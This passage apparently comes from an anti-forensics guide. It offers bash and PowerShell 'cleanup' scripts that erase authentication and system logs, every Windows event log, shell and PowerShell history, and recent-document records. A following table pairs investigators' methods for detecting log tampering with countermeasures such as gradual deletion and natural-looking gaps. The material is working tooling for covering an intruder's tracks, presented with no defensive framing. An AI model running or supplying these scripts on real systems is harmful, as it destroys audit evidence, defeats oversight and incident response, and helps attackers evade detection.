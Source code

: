 ## Automated Cleanup Scripts

### Linux Cleanup Script
```bash
#!/bin/bash
# Automated cleanup script

# Clear logs
> /var/log/auth.log
> /var/log/syslog
> /var/log/messages

# Clear history
history -c
> ~/.bash_history

# Clear temporary files
rm -rf /tmp/*
rm -rf /var/tmp/*

# Clear cache
echo 3 > /proc/sys/vm/drop_caches

echo "Cleanup completed"
```

### Windows Cleanup Script
```powershell
# Automated Windows cleanup

# Clear event logs
Get-EventLog -List | ForEach { Clear-EventLog $_.Log }

# Clear PowerShell history
Remove-Item (Get-PSReadlineOption).HistorySavePath -ErrorAction SilentlyContinue

# Clear temporary files
Remove-Item $env:TEMP\* -Recurse -Force -ErrorAction SilentlyContinue

# Clear recent documents
Remove-Item "HKCU:\Software\Microsoft\Windows\CurrentVersion\Explorer\RecentDocs\*" -Force

Write-Host "Cleanup completed"
```

## Detection Evasion

### Log Tampering Detection

| Detection Method | Indicator | Countermeasure |
|------------------|-----------|----------------|
| **Log integrity checks** | Hash verification | Selective tampering |
| **Time gap analysis** | Missing time periods | Gradual deletion |
| **Size anomalies** | Unusual log sizes | Proportional reduction |
| **Pattern analysis** | Suspicious patterns | Natural-looking gaps |
